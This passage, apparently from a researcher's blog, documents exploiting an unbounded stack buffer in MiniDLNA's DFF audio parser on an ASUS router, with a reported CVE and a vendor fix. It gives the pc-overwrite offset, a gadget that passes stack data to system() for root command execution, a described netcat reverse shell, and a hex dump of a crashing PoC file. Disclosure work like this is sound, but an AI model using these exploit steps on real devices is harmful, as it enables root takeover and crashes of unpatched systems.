4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414142424242")
1968
```
1968 / 2 (to convert to bytes) - 4 (to take the 0x42424242 off the count) = 980. So, 980 bytes land before the `pc` overwrite. That's the offset I need from the start of the PROP chunk data. More padding? Let's add a bunch of `0x43`'s after the `$pc` overwrite. 

```bash
root@dafuq:/tmp/mnt/Toshiba/Downloads/Tools/gdb# minidlna && ./gdb -q --pid $(pidof minidlna)
Attaching to process 24389
[New LWP 24391]

⚠️ warning: Unable to determine the number of hardware watchpoints available.

⚠️ warning: Unable to determine the number of hardware breakpoints available.

⚠️ warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
0xf690d728 in select () from /lib/libc.so.6

(gdb) c
Continuing.
Thread 2 "minidlna" received signal SIGILL, Illegal instruction.
[Switching to LWP 24391]
0x42424242 in ?? ()
(gdb) info reg
r0             0xffffffff          4294967295
r1             0x16d               365
r2             0xf6400470          4131390576
r3             0x1                 1
r4             0x41414141          1094795585
r5             0x41414141          1094795585
r6             0x41414141          1094795585
r7             0x41414141          1094795585
r8             0x41414141          1094795585
r9             0x41414141          1094795585
r10            0x41414141          1094795585
r11            0x41414141          1094795585
r12            0xf640051c          4131390748
sp             0xf67388d0          0xf67388d0
lr             0x7                 7
pc             0x42424242          0x42424242
cpsr           0x80000010          -2147483632
fpscr          0x0                 0
(gdb) x/30wx $sp
0xf67388d0: 0x43434343  0x43434343  0x43434343  0x43434343
0xf67388e0: 0x43434343  0x43434343  0x43434343  0x43434343
0xf67388f0: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6738900: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6738910: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6738920: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6738930: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6738940: 0x43434343  0xf71e0b78  0x00000001  0xf7088ff0
0xf6738950: 0x00000157  0xf7089020  0x00666664  0x00000000
```

Nice. The stack pointer points to padded data added right after the `$pc` overwrite. 

OK, let's analyze the memory layout.

```bash
root@dafuq:/tmp/mnt/Toshiba/Downloads/Tools/gdb# minidlna && ./gdb -q --pid $(pidof minidlna)
Attaching to process 24597
[New LWP 24599]

⚠️ warning: Unable to determine the number of hardware watchpoints available.

⚠️ warning: Unable to determine the number of hardware breakpoints available.

⚠️ warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
0xf6cd9728 in select () from /lib/libc.so.6
(gdb) c
Continuing.
^C
Thread 1 "minidlna" received signal SIGINT, Interrupt.
0xf6cd9728 in select () from /lib/libc.so.6
(gdb) info proc map
process 24597
Mapped address spaces:

Start Addr End Addr   Size       Offset     Perms File
0x00010000 0x00049000 0x39000    0x0        r-xp  /usr/sbin/minidlna
0x00058000 0x00059000 0x1000     0x38000    r--p  /usr/sbin/minidlna
0x00059000 0x0005b000 0x2000     0x39000    rw-p  /usr/sbin/minidlna
0x0005b000 0x0009f000 0x44000    0x0        rw-p
0x007dd000 0x007fe000 0x21000    0x0        rw-p  [heap]
0x007fe000 0x00826000 0x28000    0x0        rw-p  [heap]
0xf6800000 0xf68f8000 0xf8000    0x0        rw-p
0xf68f8000 0xf6900000 0x8000     0x0        ---p
0xf6910000 0xf6911000 0x1000     0x0        ---p
0xf6911000 0xf6b10000 0x1ff000   0x0        rw-p  [stack:24599]
0xf6b10000 0xf6bbe000 0xae000    0x0        r-xp  /lib/libm.so.6
0xf6bbe000 0xf6bcd000 0xf000     0xae000    ---p  /lib/libm.so.6
0xf6bcd000 0xf6bce000 0x1000     0xad000    r--p  /lib/libm.so.6
0xf6bce000 0xf6bcf000 0x1000     0xae000    rw-p  /lib/libm.so.6
0xf6bcf000 0xf6bd1000 0x2000     0x0        r-xp  /lib/libdl.so.2
0xf6bd1000 0xf6be0000 0xf000     0x2000     ---p  /lib/libdl.so.2
0xf6be0000 0xf6be1000 0x1000     0x1000     r--p  /lib/libdl.so.2
0xf6be1000 0xf6be2000 0x1000     0x2000     rw-p  /lib/libdl.so.2
0xf6be2000 0xf6bff000 0x1d000    0x0        r-xp  /lib/libgcc_s.so.1
0xf6bff000 0xf6c0e000 0xf000     0x1d000    ---p  /lib/libgcc_s.so.1
0xf6c0e000 0xf6c0f000 0x1000     0x1c000    r--p  /lib/libgcc_s.so.1
0xf6c0f000 0xf6c10000 0x1000     0x1d000    rw-p  /lib/libgcc_s.so.1
0xf6c10000 0xf6d3b000 0x12b000   0x0        r-xp  /lib/libc.so.6
0xf6d3b000 0xf6d4b000 0x10000    0x12b000   ---p  /lib/libc.so.6
0xf6d4b000 0xf6d4d000 0x2000     0x12b000   r--p  /lib/libc.so.6
0xf6d4d000 0xf6d4e000 0x1000     0x12d000   rw-p  /lib/libc.so.6
0xf6d4e000 0xf6d51000 0x3000     0x0        rw-p
0xf6d51000 0xf6d67000 0x16000    0x0        r-xp  /lib/libpthread.so.0
0xf6d67000 0xf6d76000 0xf000     0x16000    ---p  /lib/libpthread.so.0
0xf6d76000 0xf6d77000 0x1000     0x15000    r--p  /lib/libpthread.so.0
0xf6d77000 0xf6d78000 0x1000     0x16000    rw-p  /lib/libpthread.so.0
--Type <RET> for more, q to quit, c to continue without paging--c
0xf6d78000 0xf6d7a000 0x2000     0x0        rw-p
0xf6d7a000 0xf6d7e000 0x4000     0x0        r-xp  /usr/lib/libogg.so.0
0xf6d7e000 0xf6d8d000 0xf000     0x4000     ---p  /usr/lib/libogg.so.0
0xf6d8d000 0xf6d8e000 0x1000     0x3000     r--p  /usr/lib/libogg.so.0
0xf6d8e000 0xf6d8f000 0x1000     0x4000     rw-p  /usr/lib/libogg.so.0
0xf6d8f000 0xf6db6000 0x27000    0x0        r-xp  /usr/lib/libvorbis.so.0
0xf6db6000 0xf6dc5000 0xf000     0x27000    ---p  /usr/lib/libvorbis.so.0
0xf6dc5000 0xf6dc6000 0x1000     0x26000    r--p  /usr/lib/libvorbis.so.0
0xf6dc6000 0xf6dc7000 0x1000     0x27000    rw-p  /usr/lib/libvorbis.so.0
0xf6dc7000 0xf6dee000 0x27000    0x0        r-xp  /usr/lib/libFLAC.so.8
0xf6dee000 0xf6dfd000 0xf000     0x27000    ---p  /usr/lib/libFLAC.so.8
0xf6dfd000 0xf6dfe000 0x1000     0x26000    r--p  /usr/lib/libFLAC.so.8
0xf6dfe000 0xf6dff000 0x1000     0x27000    rw-p  /usr/lib/libFLAC.so.8
0xf6dff000 0xf6e26000 0x27000    0x0        r-xp  /usr/lib/libexif.so.12
0xf6e26000 0xf6e35000 0xf000     0x27000    ---p  /usr/lib/libexif.so.12
0xf6e35000 0xf6e42000 0xd000     0x26000    r--p  /usr/lib/libexif.so.12
0xf6e42000 0xf6e43000 0x1000     0x33000    rw-p  /usr/lib/libexif.so.12
0xf6e43000 0xf6ea3000 0x60000    0x0        r-xp  /usr/lib/libavutil.so.56
0xf6ea3000 0xf6eb3000 0x10000    0x60000    ---p  /usr/lib/libavutil.so.56
0xf6eb3000 0xf6ebc000 0x9000     0x60000    r--p  /usr/lib/libavutil.so.56
0xf6ebc000 0xf6ebd000 0x1000     0x69000    rw-p  /usr/lib/libavutil.so.56
0xf6ebd000 0xf70c4000 0x207000   0x0        rw-p
0xf70c4000 0xf722e000 0x16a000   0x0        r-xp  /usr/lib/libavcodec.so.58
0xf722e000 0xf723e000 0x10000    0x16a000   ---p  /usr/lib/libavcodec.so.58
0xf723e000 0xf7248000 0xa000     0x16a000   r--p  /usr/lib/libavcodec.so.58
0xf7248000 0xf724a000 0x2000     0x174000   rw-p  /usr/lib/libavcodec.so.58
0xf724a000 0xf739f000 0x155000   0x0        rw-p
0xf739f000 0xf743b000 0x9c000    0x0        r-xp  /usr/lib/libavformat.so.58
0xf743b000 0xf744a000 0xf000     0x9c000    ---p  /usr/lib/libavformat.so.58
0xf744a000 0xf7450000 0x6000     0x9b000    r--p  /usr/lib/libavformat.so.58
0xf7450000 0xf7453000 0x3000     0xa1000    rw-p  /usr/lib/libavformat.so.58
0xf7453000 0xf7524000 0xd1000    0x0        r-xp  /usr/lib/libsqlite3.so.0.8.6
0xf7524000 0xf7533000 0xf000     0xd1000    ---p  /usr/lib/libsqlite3.so.0.8.6
0xf7533000 0xf7535000 0x2000     0xd0000    r--p  /usr/lib/libsqlite3.so.0.8.6
0xf7535000 0xf7537000 0x2000     0xd2000    rw-p  /usr/lib/libsqlite3.so.0.8.6
0xf7537000 0xf7538000 0x1000     0x0        rw-p
0xf7538000 0xf7549000 0x11000    0x0        r-xp  /usr/lib/libz.so.1
0xf7549000 0xf7558000 0xf000     0x11000    ---p  /usr/lib/libz.so.1
0xf7558000 0xf7559000 0x1000     0x10000    r--p  /usr/lib/libz.so.1
0xf7559000 0xf755a000 0x1000     0x11000    rw-p  /usr/lib/libz.so.1
0xf755a000 0xf7566000 0xc000     0x0        r-xp  /usr/lib/libid3tag.so.0
0xf7566000 0xf7576000 0x10000    0xc000     ---p  /usr/lib/libid3tag.so.0
0xf7576000 0xf7577000 0x1000     0xc000     r--p  /usr/lib/libid3tag.so.0
0xf7577000 0xf7578000 0x1000     0xd000     rw-p  /usr/lib/libid3tag.so.0
0xf7578000 0xf7592000 0x1a000    0x0        r-xp  /usr/lib/libjpeg.so
0xf7592000 0xf75a1000 0xf000     0x1a000    ---p  /usr/lib/libjpeg.so
0xf75a1000 0xf75a2000 0x1000     0x19000    r--p  /usr/lib/libjpeg.so
0xf75a2000 0xf75a3000 0x1000     0x1a000    rw-p  /usr/lib/libjpeg.so
0xf75a3000 0xf75c4000 0x21000    0x0        r-xp  /lib/ld-linux.so.3
0xf75cd000 0xf75d3000 0x6000     0x0        rw-p
0xf75d3000 0xf75d4000 0x1000     0x20000    r--p  /lib/ld-linux.so.3
0xf75d4000 0xf75d5000 0x1000     0x21000    rw-p  /lib/ld-linux.so.3
0xffaec000 0xffb0d000 0x21000    0x0        rw-p  [stack]
0xffff0000 0xffff1000 0x1000     0x0        r-xp  [vectors]
(gdb) info thread
  Id   Target Id            Frame
* 1    LWP 24597 "minidlna" 0xf6cd9728 in select ()
   from /lib/libc.so.6
  2    LWP 24599 "minidlna" 0xf6cd737c in poll () from /lib/libc.so.6
(gdb) thread 2
[Switching to thread 2 (LWP 24599)]
#0  0xf6cd737c in poll () from /lib/libc.so.6
(gdb) info frame
Stack level 0, frame at 0xf6b05d38:
 pc = 0xf6cd737c in poll; saved pc = 0x382c4
 called by frame at 0xf6b05d38
 Arglist at 0xf6b05d20, args:
 Locals at 0xf6b05d20, Previous frame's sp is 0xf6b05d38
 Saved registers:
  r4 at 0xf6b05d20, r5 at 0xf6b05d24, r6 at 0xf6b05d28,
  r7 at 0xf6b05d2c, r8 at 0xf6b05d30, lr at 0xf6b05d34
```

So, MiniDLNA runs in two threads. The second thread stack frame is at `0xf6b05d38` which corresponds to:

```bash
Start Addr End Addr   Size       Offset     Perms File
0x00010000 0x00049000 0x39000    0x0        r-xp  /usr/sbin/minidlna
0x00058000 0x00059000 0x1000     0x38000    r--p  /usr/sbin/minidlna
0x00059000 0x0005b000 0x2000     0x39000    rw-p  /usr/sbin/minidlna
0x0005b000 0x0009f000 0x44000    0x0        rw-p
0x007dd000 0x007fe000 0x21000    0x0        rw-p  [heap]
0x007fe000 0x00826000 0x28000    0x0        rw-p  [heap]
0xf6800000 0xf68f8000 0xf8000    0x0        rw-p
0xf68f8000 0xf6900000 0x8000     0x0        ---p
0xf6910000 0xf6911000 0x1000     0x0        ---p
0xf6911000 0xf6b10000 0x1ff000   0x0        rw-p  [stack:24599]       // [0] 
...
```

Since the stack grows downward and `propckDataSize` is attacker-controlled, the VLA subtracts a value of my choosing from `sp`, walking it far down through the thread's stack mapping (capped at ~4 GiB, since size_t is 32-bit). To summarize: I have control over the `$pc`, `$r0` and `$r4-$r11` registers.

To confirm where it actually breaks, I rebuilt MiniDLNA with debug symbols and ran it under `pwndbg` on a Raspberry Pi:

```
pwndbg> bt
#0  __GI__IO_fread (buf=0x2d18f3f0, size=1094795585, count=1, fp=0x6dc00aa0) at iofread.c:32
#1  0x00049d24 in _get_dfffileinfo (file=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", psong=0x6e5a40ac) at tagutils/tagutils-dff.c:132
#2  0x0004d490 in _get_fileinfo (file=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", psong=0x6e5a40ac) at tagutils/tagutils.c:204
#3  0x0004d804 in readtags (path=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", psong=0x6e5a40ac, stat=0x6e5a41b0, lang=0x780d8 <lang> "en_GB",
    type=0x6e5a4218 "dff") at tagutils/tagutils.c:304
#4  0x00030e08 in GetAudioMetadata (path=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", name=0x6dc012e8 "poc1.dff") at metadata.c:380
#5  0x00037710 in insert_file (name=0x6dc012e8 "poc1.dff", path=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", parentID=0x6dc01962 "", object=0,
    types=7 '\a') at scanner.c:486
#6  0x00039c90 in monitor_insert_file (name=0x6dc012e8 "poc1.dff", path=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff") at monitor.c:257
#7  0x0004ed74 in inotify_thread (arg=0x0) at monitor_inotify.c:357
#8  0x76805310 in start_thread (arg=0x6e5aeb00) at pthread_create.c:477
#9  0x767875d8 in ?? () at ../sysdeps/unix/sysv/linux/arm/clone.S:73 from /lib/arm-linux-gnueabihf/libc.so.6
```

Reading it bottom to top: `inotify_thread` picks up the file I dropped into the watched directory, walks down through `insert_file` -> `GetAudioMetadata` -> `readtags` and into `_get_dfffileinfo`, which calls `fread` at `tagutils-dff.c:132` - the read into `propckData`.

Two things in frame `#0` are worth pointing out. `size=1094795585` is just `0x41414141` in decimal: my PROP chunk size flowing straight into the allocation. And `buf=0x2d18f3f0` is `propckData` itself - a low, out-of-place address, because the oversized VLA has already moved `sp` far down before a single byte is written. So the crash lands *inside* `fread` as it tries to write into that displaced buffer.

# Exploit development

I have to deal with ASLR and NX, but on my side is the big one: no PIE. Add no stack canaries on top, and the binary's own code stays at fixed, predictable addresses.

If you remember the output from Semgrep, we have a friend in the MiniDLNA binary.

```bash
    minidlna.c
     ❱ cpp.lang.security.system-command.dont-call-system.dont-call-system
          ❰❰ Blocking ❱❱
          Don't call `system`. It's a high-level wrapper that allows for stacking multiple commands. Always
          prefer a more restrictive API such as calling `execve` from the `exec` family.
          Details: https://sg.run/BYWWx

          405┆ if (system(cmd) != 0)
            ⋮┆----------------------------------------
          405┆ if (system(cmd) != 0)
```

The `system()` itself!

```bash
root@dafuq:/tmp/mnt/Toshiba/Downloads/Tools/gdb# minidlna && ./gdb -q --pid $(pidof minidlna)
Attaching to process 24597
[New LWP 24599]

⚠️ warning: Unable to determine the number of hardware watchpoints available.

⚠️ warning: Unable to determine the number of hardware breakpoints available.

⚠️ warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
0xf6cd9728 in select () from /lib/libc.so.6
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0x000138c4  system@plt                  // [0]
0xf7491d98  sqlite3_system_errno
0xf70cedf0  avpriv_set_systematic_pal2@plt
0xf6e6757c  avpriv_set_systematic_pal2
0xf6d54ea8  __libc_system@plt
0xf6d6396c  system
0xf6c476c8  __libc_system
0xf6c476c8  system
0xf6d0f900  svcerr_systemerr
```

```bash
➜  minidlna objdump -d ./minidlna | grep system
000138c4 <system@plt>:
   156f0: ebfff873     	bl	0x138c4 <system@plt>    @ imm = #-0x1e34
```

Let's try it out and change the `42424242` in the PoC DFF file with static `system()` address `000138c4`:

```bash
root@dafuq:/tmp/mnt/Toshiba/Downloads/Tools/gdb# minidlna && ./gdb -q --pid $(pidof minidlna)
Attaching to process 24597
[New LWP 24599]

⚠️ warning: Unable to determine the number of hardware watchpoints available.

⚠️ warning: Unable to determine the number of hardware breakpoints available.

⚠️ warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
0xf6cd9728 in select () from /lib/libc.so.6
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0x000138c4  system@plt
0xf7491d98  sqlite3_system_errno
0xf70cedf0  avpriv_set_systematic_pal2@plt
0xf6e6757c  avpriv_set_systematic_pal2
0xf6d54ea8  __libc_system@plt
0xf6d6396c  system
0xf6c476c8  __libc_system
0xf6c476c8  system
0xf6d0f900  svcerr_systemerr
(gdb) b system		// [0] we set the breakpoint, and copy the DFF file to share
Breakpoint 1 at 0xf6c476c8 (2 locations)
(gdb) c
Continuing.
[Switching to LWP 24599]

Thread 2 "minidlna" hit Breakpoint 1.2, 0xf6d6396c in system ()  // [1] we hit the breakpoint
   from /lib/libpthread.so.0
(gdb) x $r0
0xffffffff: ❌️ Cannot access memory at address 0xffffffff
```

Bingo. However, I ran into an issue - the `$r0` register is used as argument to the `system()` function (`system(const char *command);`), and the `$r0` register contains the PROP Chunk Size. Also, NX is enabled so I need to find ROP gadgets. The gadget I need needs to put something I have control over (stack, `$r4-$r11`) into the `$r0` register.

I used [ROPgadget](https://github.com/jonathansalwan/ropgadget){:target="_blank"} for this, but I did not find any gadgets that would help me. And then, once again, I decided to use `grep` and look around the `system()` call.

Look at this bad boy:

```bash
➜  minidlna objdump -D ./minidlna | grep system -B1

000138c4 <system@plt>:
--
   156ec: e28d0008      add r0, sp, #8
   156f0: ebfff873      bl  0x138c4 <system@plt>    @ imm = #-0x1e34
```

This little snippet loads `$r0` with a pointer 8 bytes ahead of the stack pointer and then falls straight into `system@plt`. Let's modify the PoC DFF file.



```bash
root@dafuq:/tmp/mnt/Toshiba/Downloads/Tools/gdb# minidlna && ./gdb -q --pid $(pidof minidlna)
Attaching to process 25298
[New LWP 25300]

⚠️ warning: Unable to determine the number of hardware watchpoints available.

⚠️ warning: Unable to determine the number of hardware breakpoints available.

⚠️ warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
0xf6d7f728 in select () from /lib/libc.so.6
(gdb) b system
Breakpoint 1 at 0xf6ced6c8 (2 locations)
(gdb) b *0x000156ec                       // [0]
Breakpoint 2 at 0x156ec
(gdb) c
Continuing.
[Switching to LWP 25300]

Thread 2 "minidlna" hit Breakpoint 2, 0x000156ec in ?? () // [1]
(gdb) x/3i $pc
=> 0x156ec: add r0, sp, #8                // [1]
   0x156f0: bl  0x138c4 <system@plt>
   0x156f4: clz r0, r0
(gdb) x $r0                            // [2]   
0xffffffff: ❌️ Cannot access memory at address 0xffffffff
(gdb) x/30wx $sp
0xf67388d0: 0x43434343  0x43434343  0x43434343  0x43434343
0xf67388e0: 0x43434343  0x43434343  0x43434343  0x43434343
0xf67388f0: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6738900: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6738910: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6738920: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6738930: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6738940: 0x43434343  0xf71e0b78  0x00000001  0xf7088ff0
0xf6738950: 0x00000157  0xf7089020  0x00666664  0x00000000
(gdb) si                                   // [4]
0x000156f0 in ?? ()
(gdb) x/wx $r0                             // [5]
0xf6baa8d8: 0x43434343                     // [6]
(gdb) x/20wx $r0
0xf6baa8d8: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6baa8e8: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6baa8f8: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6baa908: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6baa918: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6baa928: 0x43434343  0x43434343  0x43434343  0x43434343
0xf6baa938: 0x43434343  0x43434343  0x43434343  0xf7652b78
0xf6baa948: 0x00000001  0xf74faff0  0x00000157  0xf74fb020
0xf6baa958: 0x00666664  0x00000000  0x00000000  0x00000000
(gdb) si
0x000138c4 in system@plt ()                 // [7]
(gdb) c
Continuing.

Thread 2 "minidlna" hit Breakpoint 1.2, 0xf6e0996c in system ()
   from /lib/libpthread.so.0
```

Nice. Now `$r0` holds the memory address of `$sp+8`, and I have control over the contents. Time to get a shell.

As the prerequisite is to have write access via an SMB share / AiCloud - I can already transfer all the binaries I need, as ASUS router does not have any I can use out of the box to get a reverse shell (at least from my experiments). I have command execution as root (as I can put any command on the stack which `system()` will execute), but a shell is a shell.

By default, the ASUS router mounts external devices to `/tmp/mnt`, so I opted for this payload:



It will `find` the copied `netcat` binary in `/tmp/mnt`, run it with the arguments I baked into the DFF file, and then restart minidlna, as it SIGSEGVs right after the payload fires, and I didn't bother making it stable post-exploitation.

```bash
➜  mini mount | grep Downloads
//shareuser@192.168.1.1/Downloads on /Volumes/Downloads (smbfs, nodev, nosuid, mounted by user)
```

Exploitation video:
<video width="100%" controls>
  <source src="/assets/img/8/minidlna-dff-exploit-final.mp4" type="video/mp4">
</video>

```bash
root@dafuq:/tmp/home/root# nvram get productid
RT-AX86U
root@dafuq:/tmp/home/root# nvram get extendno_org
24448-gbba10fc
root@dafuq:/tmp/home/root# nvram get firmver
9.0.0.4
```

# Cross-Platform Confirmation

Since ReadyMedia / MiniDLNA ships identically across a dozen platforms, I spun up the same MiniDLNA 1.3.3 codebase in Docker across six distributions to confirm the DFF parser crash. 

Same PoC file everywhere:

```bash
00000000  46 52 4d 38 00 00 00 00 00 00 10 00 44 53 44 20  |FRM8........DSD |
00000010  46 56 45 52 00 00 00 00 00 00 00 04 01 05 00 00  |FVER............|
00000020  50 52 4f 50 00 00 00 02 00 00 00 00              |PROP........|
```

A minimal `FRM8`/`DSD `/`FVER` header followed by a `PROP` chunk with `ckDataSize = 0x0000000200000000` (~8 GB).

#### Ubuntu 24.04 (minidlna 1.3.3, apt)

```bash
[Sat Jun 13 12:42:32 2026] minidlnad[3514]: segfault at 7ffeffa96568 ip 00005622f9d5313a sp 00007ffeffa95570 error 6 in minidlnad[2e13a,5622f9d2e000+2e000] likely on CPU 1 (core 1, socket 0)
```

I also rebuilt this one from source with debug symbols and caught it live in gdb:

```bash
Thread 2 "minidlnad" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7f15a5e526c0 (LWP 11038)]
0x000055cd1fe70348 in _get_dfffileinfo (file=0x7f15a5e48560 "/media/poc.dff", psong=0x7f15a5e47010) at tagutils/tagutils-dff.c:130
130			unsigned char propckData[propckDataSize];
#0  0x000055cd1fe70348 in _get_dfffileinfo (...) at tagutils/tagutils-dff.c:130
        propckDataSize = 8589934592
        totalcount = 8589934604
        ckbuf = "PROP\000\000\000\002\000\000\000"
#1  0x000055cd1fe71fd7 in _get_fileinfo (...) at tagutils/tagutils.c:204
#2  0x000055cd1fe722ef in readtags (...) at tagutils/tagutils.c:304
#3  0x000055cd1fe5785a in GetAudioMetadata (...) at metadata.c:380
#4  0x000055cd1fe5dcf3 in insert_file (...) at scanner.c:486
#5  0x000055cd1fe603e5 in monitor_insert_file (...) at monitor.c:257
#6  0x000055cd1fe737d7 in inotify_thread (arg=0x0) at monitor_inotify.c:357
#7  0x00007f15b049cb84 in start_thread (...) at ./nptl/pthread_create.c:447
#8  0x00007f15b0529cc4 in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:100

rax            0x200000000         8589934592
rcx            0x200000000         8589934592
rip            0x55cd1fe70348      0x55cd1fe70348 <_get_dfffileinfo+1379>
```

Same call chain as the ARM backtrace above: `inotify_thread` -> `monitor_insert_file` -> `insert_file` -> `GetAudioMetadata` -> `readtags` -> `_get_dfffileinfo`.

#### Debian 12 (minidlna 1.3.3, apt)

```bash
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x7ffb0c871268} ---
+++ killed by SIGSEGV +++
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_pid=2153, si_uid=0, si_status=SIGSEGV, si_utime=0, si_stime=0} ---
```

#### Fedora 44 (minidlna 1.3.3, dnf)

```bash
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x7ffccecf0f28} ---
+++ killed by SIGSEGV +++
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_pid=1432, si_uid=0, si_status=SIGSEGV, si_utime=0, si_stime=0} ---
```

#### Arch Linux (minidlna 1.3.3-7, pacman)

```bash
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x7ffc1965a688} ---
+++ killed by SIGSEGV +++
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_pid=1183, si_uid=0, si_status=SIGSEGV, si_utime=0, si_stime=0} ---
```

#### Alpine Linux (minidlna 1.3.3-r3, apk)

```bash
open("/media/poc.dff", O_RDONLY|O_LARGEFILE) = 4
readv(4, [{iov_base="FRM8\0\0\0\0\0\0\20\0DSD FVER\0\0\0\0\0\0\0\4\1\5\0", iov_len=31}, {iov_base="\0PROP\0\0\0\2\0\0\0\0", iov_len=1024}], 2) = 44
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x7fff1dff4708} ---
+++ killed by SIGSEGV +++
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_pid=29, si_uid=0, si_status=SIGSEGV, si_utime=0, si_stime=0} ---
```

#### Raspbian 11 (compiled from the source with debug symbols)

```bash
pwndbg> bt
#0  __GI__IO_fread (buf=0x2d18f3f0, size=1094795585, count=1, fp=0x6dc00aa0) at iofread.c:32
#1  0x00049d24 in _get_dfffileinfo (file=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", psong=0x6e5a40ac) at tagutils/tagutils-dff.c:132
#2  0x0004d490 in _get_fileinfo (file=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", psong=0x6e5a40ac) at tagutils/tagutils.c:204
#3  0x0004d804 in readtags (path=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", psong=0x6e5a40ac, stat=0x6e5a41b0, lang=0x780d8 <lang> "en_GB",
    type=0x6e5a4218 "dff") at tagutils/tagutils.c:304
#4  0x00030e08 in GetAudioMetadata (path=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", name=0x6dc012e8 "poc1.dff") at metadata.c:380
#5  0x00037710 in insert_file (name=0x6dc012e8 "poc1.dff", path=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", parentID=0x6dc01962 "", object=0,
    types=7 '\a') at scanner.c:486
#6  0x00039c90 in monitor_insert_file (name=0x6dc012e8 "poc1.dff", path=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff") at monitor.c:257
#7  0x0004ed74 in inotify_thread (arg=0x0) at monitor_inotify.c:357
#8  0x76805310 in start_thread (arg=0x6e5aeb00) at pthread_create.c:477
#9  0x767875d8 in ?? () at ../sysdeps/unix/sysv/linux/arm/clone.S:73 from /lib/arm-linux-gnueabihf/libc.so.6
```

I tried exploiting the vulnerability on Ubuntu, but I could not corrupt anything. I only had a reliable crash. If you pull MiniDLNA 1.3.3 from Ubuntu's apt repo, you get a binary hardened with PIE, full RELRO, stack canaries, FORTIFY_SOURCE, and `-fstack-clash-protection`. 

On other embedded/router-class builds without these mitigations, this memory corruption can lead to code execution. On anything built with a modern, default-hardened toolchain, it degrades to a denial-of-service condition. But that is just my experience.

# References

- [VulnCheck](https://www.vulncheck.com/advisories/minidlna-unbounded-vla-to-rce){:target="_blank"}
- [ASUS Security Advisory](https://www.asus.com/security-advisory#bulletins){:target="_blank"}
- [ASUS Firmware Update 3.0.0.4.388_24437](https://www.asus.com/networking-iot-servers/wifi-routers/asus-gaming-routers/rt-ax86u/helpdesk_bios?model2Name=RT-AX86-Series-RT-AX86U-RT-AX86S)
- [ASUS Hall of Fame](https://www.asus.com/security-advisory#hof){:target="_blank"}
- [NIST](https://nvd.nist.gov/vuln/detail/cve-2026-29508){:target="_blank"}

# Outro

I reported the vulnerability through [VulnCheck](https://vulncheck.com){:target="_blank"} in March, who handled the coordination. ASUS was responsive, and over the following months they sent me several firmware builds to test, and I kept throwing my PoCs at each one until the vulnerability was properly fixed by adding a bounds check for the Property chunk size.

What started as me poking at my own router ended up as my first memory corruption bug and I've learned a lot in the process.

0x41414141 the planet!

kr3bz
